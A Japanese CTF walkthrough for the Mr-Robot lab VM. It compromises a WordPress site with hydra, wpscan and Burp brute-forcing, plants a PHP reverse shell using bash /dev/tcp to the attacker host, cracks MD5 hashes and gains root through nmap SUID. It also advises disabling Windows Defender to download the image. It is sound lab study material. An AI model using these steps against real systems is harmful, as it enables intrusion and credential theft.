 ## Mr-Robot 788~

## ダウンロードできない問題
- WindowsDefenderがウィルスを感知してダウンロードできないので、ネットでoffにするのを調べてからダウンロードする。ダウンロードしたら、Defenderをまた有効にする

1. 「スタート」ボタン-「設定」の順にクリックします。
2.  Windowsの設定が表示されたら、「更新とセキュリティ」- 「Windows セキュリティ」-「ウイルスと脅威の防止」の順にクリックします。
3.  Windowsのセキュリティ画面が表示されたら、「ウイルスと脅威の防止の設定」にある「設定の管理」をクリックします。
4. 「リアルタイム保護」の設定を「オフ」に切り替えて、「はい」をクリックします。

## wordpressにログインできない
- 一度最後まで通してやるとログインできなかったり不都合があるので、もう一度削除してインストールをする

### ポートスキャンまで同じ
- 22はcloseになっているので注意
- 80, 443
### ブラウザでアクセスする
- サイトを探索する
- robots.txtを見る
  - `curl $IP/robots.txt`


### ダウンロードしたファイルの整理
- このファイルはhydraの辞書として使う。
- `wget http://192.168.56.116/key-1-of-3.txt`
- `wget http://192.168.56.116/fsocity.dic`
- fsocity.dicの中味を確認して、多いので整理する
  - `cat fsocity.dic`
  - `wc fsocity.dic`
  - `cat fsocity.dic | sort | uniq > filtered_fsocity.dic`

### 解きやすいように小さいファイルを作る
- ここではユーザ名とパスワードがわかっているとして、学習のため小さいファイルを作る
- `grep -A 5 -B 10 ER28 filter_fsocity.dic > short-txt.dic`
- `grep -C 10 elliot filter_fsocity.dic >> short-txt.dic` 

### NIKTO
- `nikto -h $URL` 結構時間がかかる
- いくつかサイトがあるのでメモっておく
  - `/wp-login.php` 
  - `/license.txt`

### ユーザログインのパスワードを見つける(4通りある)
- (1)ファイルに書いてある
  - `/license.txt`の一番下に怪しい文字列があるのでコピーしておく
  - さっきの文字列の最後に`=`があったのでbase64で暗号化されていると思われるので、でコードする
  - `echo ペースト | base64 --decode`
  - ユーザ名(elliot)とパスワード(ER28-0652)がわかる
- (2)hydraを使う
  - `hydra $IP -L short-txt.dic -p test http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.56.123%2Fwp-admin%2F&testcookie=1:username"`
  - elliotが見つかる
  - `hydra $IP -l elliot -P short-txt.dic http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.56.123%2Fwp-admin%2F&testcookie=1:is incorrect"` 

- (3)wpscanを使う
  - `wpscan --url http://$IP --usernames short-txt.dic --passwords short-txt.dic` 

- (4)BurpSuite
  - BurpSuiteを起動してブラウザを起動する
  - IPAdress/wp-loginにアクセス、ユーザ名にunko,passwordにtinkoと入力する
  - Requestで右クリックでsend to intruderにする
  - Intruderに移動して、Requestのunkoを$unko$にする
  - 右側のpayloadsのLoadからshort.txtをフォルダから選択してopenする
  - start attackすると起動する
  - 終了したらLengthを押すと一番大きい数字のがelliotだとわかる

### wordpressのユーザにログインする
- `http://192.168.56.116/wp-login`
- ユーザ名とパスワードを入力するとダッシュボードにアクセスできる

### phpリバースシェルの準備
- この3つのどちらからでもいいのでコードをコピーしてくる
  - cd /usr/share/webshells/php ; cat php-reverse-shell.php
  - https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
  - ```
    <?php
    exec("/bin/bash -c 'bash -i >& /dev/tcp/ParrotOSのアドレス/443 0>&1'");
    ?>
    ```
- ダッシュボードで`Appearance`->`Editor`->`404 Template`を選んで、一度全部削除してさっきのコピーをペーストする
- コードの中の一部を書き換える
  - IPアドレスをParrotOSのアドレス
  - ポート番号は5555とする
- 下の方にupdate fileボタンがあるので押す

### リバースシェルの待ち受け
- ParrotOSでもうひとつターミナルを開けて次のコマンドを打つ
- `nc -nlvp 5555`
  - もしncコマンドがなければ、NATにつなげて`sudo apt install netcat-traditinal`でインストールする 
- ブラウザでサイトにアクセスするとシェルを取得できる
  - `http://ターゲットサーバのIPアドレス/404.php`
- いつも通りにPythonで対話型シェルにする
  - `python -c "import pty; pty.spawn('/bin/bash')"`
  - daemonユーザになる

### daemonユーザでいつもの試す
- ユーザを取得したらすること
  - `sudo -l` パスワードがわからない
  - `SUID` nmapコマンドはない 

### LinEnum.shを試す
- linenum.shはlinpeas.shのような、権限昇格の情報を与えてくれるスクリプト。
- 今回はスクリプトを`/opt`に置く。ここは自分のホーム以外なのでroot権限が必要
- `sudo wget https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh`
- `sudo chmod +x LinEnum.sh`
- ParrotOS側
  - `python -m http.server 8080`
- TargetServer側
  - `cd /tmp`
  - `wget http://IPアドレス:8080/LinEnum.sh`   
  - `chmod +x LinEnum.sh`
  - `./LinEnum.sh`
- 表示に`Possibly interasting SUID files;`があるので注目

### システム内を探索する
- `cd /home/robot ; ls`
- `cat password.raw-md5`暗号があるので、コピーする
- 解読させる方法は3通りある

### (1)オンラインハッシュクラッカーでハッシュ値を解読する
- 本ではサイトを使っている。md5は元に戻せないので、オンラインサイト(Crack Station)の辞書で戻す
- 答えを書いておくと
  - abcdefghijklmnopqrstuvwxyz

### (2)hashcatでハッシュ値を解読する
- c3fのとこにペーストする
- `hashcat 'c3f~' /usr/share/wordlists/rockyou.txt -m 0`

### (3)john the ripperでハッシュ値を解読する
- なぜか、これはできない
- john the ripperでもできる。ただし暗号の種類が書いていないので--fomatで自分で指定する。しないとエラーになる
- hash.txtは`ユーザ名:ハッシュ値`の形式にする
- `sudo john --format=Raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`
- `sudo john --show --format=raw-md5 hash.txt`

### 別のユーザに切り替える
- `su robot`

### SUIDファイルを探索する
- `find / -perm -u=s  -type f 2> /dev/null`

### SUIDファイルを利用して、ルートシェルを取得する
- `nmap --interactive`
- `!sh`

### フラグを取得する
- `cd /root; cat key-3-of-3.txt`
